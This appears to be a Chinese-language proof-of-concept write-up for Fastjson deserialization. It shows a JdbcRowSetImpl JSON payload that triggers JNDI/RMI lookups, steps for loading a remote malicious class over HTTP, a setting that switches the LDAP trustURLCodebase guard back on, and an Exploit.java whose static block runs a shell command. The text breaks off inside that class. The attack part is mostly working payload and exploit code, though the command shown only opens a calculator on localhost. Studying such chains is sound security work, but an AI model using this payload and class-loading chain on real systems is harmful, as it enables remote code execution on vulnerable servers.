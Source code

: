 ### POC

`RMI`注入远程加载恶意类用的是`jdk8u112`，下载链接：[https://cdn.azul.com/zulu/bin/zulu8.19.0.1-jdk8.0.112-macosx_x64.zip](https://cdn.azul.com/zulu/bin/zulu8.19.0.1-jdk8.0.112-macosx_x64.zip)

原因：

在`JDK 6u132, JDK 7u122, JDK 8u113`及其之后版本中，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase` `com.sun.jndi.cosnaming.object.trustURLCodebase` 默认值为 `false`，即默认不允许从远程的 `Codebase` 加载 `Reference` 工厂类。

我尝试将这两个属性改为`true`但是不行，索性换`jdk`版本测试

但是`LDAP`（`JDK 6u211，7u201, 8u191, 11.0.1`之后`com.sun.jndi.ldap.object.trustURLCodebase` 属性的默认值被调整为`false`）设置

```java
System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
```

后使用`jdk8u441`也能OK

`JdbcRowSetImpl` ：

DNS探测或远程加载恶意类

```java
{
		"@type":"com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName":"rmi://127.0.0.1:1099/badClassName", 
		"autoCommit":true
}
```

JNDI注入加载远程恶意类：

流程说明：

- **触发点**：受害者的Fastjson应用解析了攻击者的`JdbcRowSetImpl` payload。
- **JNDI查询**：`JdbcRowSetImpl`在设置`autoCommit`为`true`时，会调用`connect()`方法，该方法会触发一个JNDI查询，请求`rmi://127.0.0.1:1099/badClassName`这个地址。
- **RMI响应**：攻击者在`127.0.0.1:1099`上部署的恶意RMI服务器收到了这个请求。它不会直接返回一个对象，而是返回一个`Reference`（引用）对象。
- **恶意引用**：这个`Reference`对象告诉受害者的JNDI服务：你要找的类不在这里，你需要去另一个地址 `http://127.0.0.1:8000/` 下载一个名为 `Exploit` 的工厂类来创建它。
- **HTTP下载**：受害者的JVM收到这个指令后，会信任这个地址，通过HTTP请求从你的Web服务器上下载`Exploit.class`文件。
- **代码执行**：受害者的JVM加载了下载的恶意字节码。在类加载和实例化的过程中，`static`静态代码块会被**立即执行**，从而运行了弹出计算器的命令。

流程操作（RMI）：

1. 新建恶意类`Exploit.java`

```java
import java.io.IOException;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Exploit implements ObjectFactory {

    static {
        try {
            String[] cmd = {"/bin/sh", "-c", "open -a Calculator"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
```